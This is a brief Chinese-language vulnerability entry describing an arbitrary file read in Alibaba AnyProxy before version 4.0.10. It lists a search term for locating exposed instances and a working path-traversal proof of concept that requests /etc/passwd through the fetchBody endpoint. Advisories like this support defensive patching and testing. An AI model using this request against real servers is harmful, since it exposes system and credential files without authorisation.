

# Alibaba AnyProxy fetchBody 任意文件读取漏洞

## 漏洞描述

Alibaba AnyProxy 低版本存在任意文件读取，通过漏洞，攻击者可以获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>Alibaba AnyProxy < 4.0.10</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"anyproxy"</a-checkbox></br>

## 漏洞复现

页面如下


验证POC为

```plain
/fetchBody?id=1/../../../../../../../../etc/passwd
```

